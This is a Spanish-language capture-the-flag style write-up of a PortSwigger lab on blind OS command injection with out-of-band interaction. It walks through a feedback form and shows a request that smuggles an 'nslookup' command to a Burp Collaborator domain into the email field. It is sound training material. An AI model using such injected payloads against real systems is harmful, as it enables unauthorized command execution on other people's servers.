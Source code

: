 ```yaml
---
title: "Blind OS command injection with out-of-band interaction"
description: "Laboratorio de Portswigger sobre OS Command Injection"
date: 2024-12-01 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - OS Command Injection
tags:
  - OS Command Injection
  - Blind OS command injection with out-of-band interaction
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `Blind OS Command Injection` en la `función` de `comentarios`. La aplicación `ejecuta` un `comando` en la `terminal` que incluye `datos` proporcionados por el `usuario`. El `comando` se ejecuta de forma `asíncrona` y no tiene efecto en la `respuesta` de la aplicación. No es posible `redireccionar` la `salida` a una `ubicación` accesible. Sin embargo, podemos desencadenar `out-of-band interactions` con un `dominio externo`. Para resolver el `laboratorio`, debemos explotar la `vulnerabilidad` para realizar una `consulta DNS` a `Burp Collaborator`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/OS-Command-Injection-Lab-4/image_1.png)

Pulsamos en `Submit feedback` y vemos un `formulario`

![](/assets/img/OS-Command-Injection-Lab-4/image_2.png)

Hacemos `click` sobre `Submit feedback` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/OS-Command-Injection-Lab-4/image_3.png)

La `respuesta` obtenida son unas `llaves vacías {}`

![](/assets/img/OS-Command-Injection-Lab-4/image_4.png)

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard`, debido a que no recibimos `ninguna respuesta` que indique que estamos `inyectando comandos`, esta es la única forma que podemos utilizar para ello, debemos usar este `payload` en los diferentes `campos` para ver si son `inyectables`

```
csrf=zRp2nJC1bIBQPQcICpkP7l9cHlAfYlE8&name=test&email=||nslookup+t712dnvp65v6mtbksuisdlxe95fw3rrg.oastify.com||&subject=test&message=test
```

Si nos vamos a `Burpsuite Collaborator` nuevamente veremos que hemos obtenido `dos peticiones DNS`

![](/assets/img/OS-Command-Injection-Lab-4/image_5.png)
